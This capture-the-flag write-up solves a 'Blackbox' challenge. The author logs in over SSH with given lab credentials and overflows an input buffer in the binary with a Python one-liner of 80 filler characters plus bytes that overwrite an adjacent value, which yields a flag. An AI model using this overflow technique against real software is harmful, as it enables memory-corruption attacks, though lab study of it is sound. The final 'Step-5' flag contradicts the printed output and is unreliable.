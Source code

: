 ## Blackbox
The main idea of finding the flag is String Overflow.

#### Step-1:
After I SSH'ed into `ssh blackbox@104.131.79.111 -p 1001` with password as `guest` (given), I got this:

<img src="1.png">

#### Step-2:
So, I tried to run `blackbox` file.

<img src="2.png">

#### Step-3:
Now it was time to go wild. So, I gave very big inputs to see the threshold of String Overflow.

<img src="3.png">

#### Step-4:
So, lets just print to exceed 80 characters because at 81st character we find the string overflow here.
Executing this one liner, gives us flag.

```py
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```
Output:

```bash
What is 1 + 1 = CORRECT! You get flag: 
flag{0n3_4lus_1_1s_Tw0_dumm13!!}

[2]+  Stopped                 python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<img src="Flag.png">

#### Step-5:
Finally, the flag becomes: 
`the_flag_is{A_sP3c7r0grAm?!}`
